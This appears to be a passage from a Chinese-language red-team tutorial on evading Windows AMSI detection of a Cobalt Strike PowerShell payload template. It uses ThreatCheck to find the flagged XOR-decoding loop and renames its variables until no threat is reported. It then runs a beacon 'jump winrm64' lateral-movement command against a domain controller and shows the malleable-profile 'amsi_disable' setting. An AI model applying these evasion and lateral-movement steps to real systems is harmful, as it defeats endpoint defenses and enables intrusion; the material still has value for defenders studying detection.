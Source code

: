 [...snip...]

[!] Identified end of bad bytes at offset 0x703
00000000   6E 74 61 74 69 6F 6E 46  6C 61 67 73 28 27 52 75   ntationFlags('Ru
00000010   6E 74 69 6D 65 2C 20 4D  61 6E 61 67 65 64 27 29   ntime, Managed')
00000020   0A 0A 09 72 65 74 75 72  6E 20 24 76 61 72 5F 74   ···return $var_t
00000030   79 70 65 5F 62 75 69 6C  64 65 72 2E 43 72 65 61   ype_builder.Crea
00000040   74 65 54 79 70 65 28 29  0A 7D 0A 0A 49 66 20 28   teType()·}··If (
00000050   5B 49 6E 74 50 74 72 5D  3A 3A 73 69 7A 65 20 2D   [IntPtr]::size -
00000060   65 71 20 38 29 20 7B 0A  09 5B 42 79 74 65 5B 5D   eq 8) {··[Byte[]
00000070   5D 24 76 61 72 5F 63 6F  64 65 20 3D 20 5B 53 79   ]$var_code = [Sy
00000080   73 74 65 6D 2E 43 6F 6E  76 65 72 74 5D 3A 3A 46   stem.Convert]::F
00000090   72 6F 6D 42 61 73 65 36  34 53 74 72 69 6E 67 28   romBase64String(
000000A0   27 25 25 44 41 54 41 25  25 27 29 0A 0A 09 66 6F   '%%DATA%%')···fo
000000B0   72 20 28 24 78 20 3D 20  30 3B 20 24 78 20 2D 6C   r ($x = 0; $x -l
000000C0   74 20 24 76 61 72 5F 63  6F 64 65 2E 43 6F 75 6E   t $var_code.Coun
000000D0   74 3B 20 24 78 2B 2B 29  20 7B 0A 09 09 24 76 61   t; $x++) {···$va
000000E0   72 5F 63 6F 64 65 5B 24  78 5D 20 3D 20 24 76 61   r_code[$x] = $va
000000F0   72 5F 63 6F 64 65 5B 24  78 5D 20 2D 62 78 6F 72   r_code[$x] -bxor
```

看来是这段代码有问题
```
for ($x = 0; $x -lt $var_code.Count; $x++) {
  $var_code[$x] = $var_code[$x] -bxor 35
}
```

换变量名字:$x -> $i ， $var_code -> $var_banana
```
for ($i = 0; $i -lt $var_banana.Count; $i++) {
  $var_banana[$i] = $var_banana[$i] -bxor 35
}
```

再次检测，没有警报了
```
C:\>Tools\ThreatCheck\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -e AMSI -f Tools\cobaltstrike\ResourceKit\template.x64.ps1
[+] No threat found!
[*] Run time: 0.19s
```

通过Cobalt Strike > Script Manager加载resources.cna，现在可以横向了
```
beacon> jump winrm64 dc-2 smb
[+] established link to child beacon: 10.10.17.71
```

# AmsiScanBuffer

[AmsiScanBuffer](https://docs.microsoft.com/en-us/windows/win32/api/amsi/nf-amsi-amsiscanbuffer)
amsi.dll是从实现反恶意软件扫描接口 (AMSI) 的库导出的 API

应用程序如powershell会自动加载amsi.dll

所有经由powershell的命令都会先进入这个动态链接库判断是否存在恶意行为

在Cobalt Strike中有一个```amsi_disable```可以绕过AMSI

要启用amsi_disable指令，请在你的配置文件中添加以下内容：
```
post-ex {
    set amsi_disable "true";
}
```
```